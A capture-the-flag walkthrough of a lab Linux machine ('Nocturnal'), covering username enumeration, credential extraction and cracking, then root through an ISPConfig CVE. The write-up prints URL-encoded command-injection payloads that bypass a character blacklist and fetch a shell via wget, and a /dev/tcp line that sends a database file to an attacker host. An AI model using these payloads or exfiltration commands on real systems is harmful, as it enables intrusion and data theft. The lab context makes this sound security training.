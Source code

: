 # Nocturnal

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

##  Summary

| Step | User / Access   | Technique Used                          | Result                                                                                  |
| :--- | :------------- | :-------------------------------------- | :-------------------------------------------------------------------------------------- |
| 1    | `N/A`          | Port Scanning                           | Found HTTP (nginx 1.18) and SSH (OpenSSH 8.2) services.                                 |
| 2    | `N/A`          | Username Enumeration                     | Enumerated users (`admin`, `amanda`, `tobias`) via URL parameter with ffuf.            |
| 3    | `amanda`       | File Analysis / Backup                   | Downloaded `privacy.odt` and extracted Amanda’s password.                               |
| 4    | `tobias`       | Database Access / Password Cracking      | Logged in to backend, created backup, retrieved and cracked Tobias's password.          |
| 5    | `www-data`     | Command Injection in Backup Function    | Exploited zip backup password injection to execute shell commands and retrieve DB file. |
| 6    | `N/A`          | SSH Local Port Forwarding                | Forwarded intranet port 8080 to local machine to access ISPConfig service.              |
| 7    | `root`         | ISPConfig CVE-2023-46818 Exploit        | Used code injection exploit to gain root privileges on the system.                     |



## Nmap Enumeration

```bash
[root@kali] /home/kali/Nocturnal  
❯ nmap Nocturnal.htb -sV -A
````

**Nmap Results:**

| Port   | State | Service | Version                          |
| ------ | ----- | ------- | -------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 |
| 80/tcp | open  | http    | nginx 1.18.0 (Ubuntu)            |



---

## User Enumeration

1. Register a user and log in.
2. Upload any file to check download links:

```
http://nocturnal.htb/view.php?username=<USERNAME>&file=2023.xlsx
```

3. Enumerate usernames using **ffuf**:

```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=2023.xlsx' \
-w ../Desktop/fuzzDicts/userNameDict/user.txt \
-H 'Cookie: PHPSESSID=k381a2of6lftuk6gnab5f5sapa' \
-fs 2985
```

**Discovered Users:**

* `admin`
* `amanda`
* `tobias`

4. Check files for **amanda**, find `privacy.odt`:

```bash
file privacy.odt
# Output: Zip archive, with extra data prepended
```

* Decompress and extract **password** from this file.

---

## User Password Extraction

1. Log in to the admin interface using amanda’s credentials.
2. Create a backup from the admin panel (set a password).
3. Download and decompress the backup file to retrieve database files.
4. Use amanda's password to obtain password hashes.
5. Crack **tobias’s password** successfully.

---

## Code Analysis (Post-Update)

* Database backup functionality in `admin.php`:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) return false;
    }
    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

* **Vulnerability:** Password field is directly spliced into the `zip` command; partial blacklist is insufficient.
* **Exploit:** Use URL encoding to inject commands:

```text
password=%0Abash%09-c%09"id"%0A&backup=
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```

* Transfer the database file to your machine:

```bash
www-data@nocturnal:~/nocturnal_database$ cat nocturnal_database.db > /dev/tcp/10.xx.xx.xx/8888
```

```bash
[root@kali] /home/kali/Nocturnal  
❯ nc -lvnp 8888 > nocturnal_database.db
```

---

## Root Access

1. Found intranet service on port `8080`.
2. SSH tunneling to local machine:

```bash
ssh tobias@nocturnal.htb -L 9090:127.0.0.1:8080
```

3. Identified **ISPConfig** service (possibly version 3.2).
4. Exploit **CVE-2023-46818** for code injection:

* Search: `bipbopbup/CVE-2023-46818-python-exploit`

* Use to gain root access.

* **Tip:** Check for password reuse between users and services.

---



**Takeaways:**

* Always sanitize user input properly for command execution.
* Backup files and database exports can leak credentials if not protected.
* Internal services can provide privilege escalation paths when exposed internally.
